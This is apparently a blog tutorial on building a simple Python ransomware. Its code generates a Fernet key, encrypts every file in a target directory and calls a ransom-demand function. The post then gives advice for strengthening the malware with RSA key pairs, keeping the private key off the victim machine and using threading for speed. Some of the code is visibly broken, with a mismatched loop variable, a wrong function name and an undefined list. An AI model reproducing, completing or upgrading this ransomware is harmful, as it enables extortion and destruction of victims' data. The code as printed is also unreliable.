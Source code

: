+++
authors = ["xkaynit"]
title = "Malware creation and analysis"
date = "2024-11-06"
description = "Create and understand how to reverse a simple malware"
tags = [
    "xkaynit",
    "post",
    "Malware"
]
# series = ["Theme Demo"]
+++

# Create and understand how to reverse a simple malware

## Introduction

The purpose of this article is to create a simple malware(ransomware), understand how it is possible to reverse it(when it's possible) and see some ways to improve the malware. This is what I saw in one of my courses last year and I really want to did an article about this topic because this is related to one of some current threat in cybersecurity. A **malware** refers to any intrusive software developed by malicious attackers to steal data and damage or destroy computers. 

***If you want to reproduce the malware, please do it for educational purpose only and in a virtual machine to prevent any damages. I am not responsible of your actions with using the following code.***

## Malware creation

In this part I am going to analyse the main part of the malware, you can assemble all the code to retrieve the entire file. Firstly, we need to create a directory with a text file and the sentence of your choice in it which is the one we will take as example. 

```
from cryptography.fernet import Fernet

def key_gen():
    clef=Fernet.generate_key()
    with open("clef.key",'wb') as key_file:
        key_file.write(clef)
```

Fernet library and more precisely **cryptography** class permit us to use symmetric encryption. This type of encryption means that we need the key to both encrypt and decrypt the text. Anyone who doesn't have access to the key can't decrypt the message. The code above use **generate_key** function to as indicate in the name generate our key and write it in **clef.key** file(write-binary opening mode). If the key is lose or stolen by malicious attacker, the message can't be decrypt in the first case and the stealer can read the encrypt message in the second. 

```
def key_loading():
    return open('clef.key','rb').read()
```

This function opened the previously created file and load the key inside to use it in the encryption file of the directory.

```
def encrypt_all(items,clef):
    f=Fernet(clef)
    for items in items:
        with open(item,'rb') as File:
            file_data=File.read()
        encrypted_data=f.encrypt(file_data)
        with open(item,'wb') as File:
            File.write(encrypted_data)
```

This is the most important function in the code. The purpose of it is to encrypt all the data file in the targeted repository. Fernet function create an instance with the key, this instance allow to encrypt the data as seen in the **encrypted_data** line. After, we load all the file in the repository with the first "with" loop and encrypt the loaded data file with the second. 

```
path=['confidential' + '/' + item for item in items]
key_generation()
clef=key_loading()
encrypt_all(path,clef)
money()
```

Money function is define to make the ransomware more realist with some instructions inside, for example a ransom demand. 
To conclude this part, we choose the target path in the variable **path**(here the path is "confidential"), we generate the key and load it in **clef** file. Finally, the encrypt_all function is used with the path and the previously loaded key parameters.

## Analysis

By executing the python code, the 'confidential' directory is completely unreadable and data can be lose. A file containing instructions to retrieve the decipher key has been created with "ransom payment". But the code and more precisely key file have some vulnerabilities. The first major is the symmetrical cryptography, this means you have one key to both cipher and decipher the files. This is why symmetric cipher is not currently used nowadays, if someone find the symmetrical key, he may decipher the content of the directory.  
Another point to notice is the storage location of the key. Indeed, the key is stored on the computer so the user can retrieve it and use it to decipher the targeted directory.  

## Improvement

Some easy improvements are possible to have a stronger ransomware. Concerning the encryption key used, it is better to use an asymmetrical encrpytion protocol with a public/private key pair in order to have one for cipher(public) and the other for decipher(private). An algorithm such as RSA will well works for this purpose. This improvement act to hide the storage location of the key too because we only need to have the public key to cipher and keep the private key in a "safe place". Another point to take into account is the performance of the ransomware. The current code is not very efficiency with a lot of directory and files, it is possible to increase the overall performance with using python threading. Threading allow us to browse all files concurrently in a way to reduce the execution time when a lot of files is contained in the targeted directory.

## Conclusion

In this article we saw what is a malware and more precisely a ransomware, the step to construct it and the works of each parts. The last two parts talks about analysis and possible improvements of the malware. ***Once time again, this article is on an educational purpose only so please if you want to reproduce it be sure to execute it on a controlled environnement.***

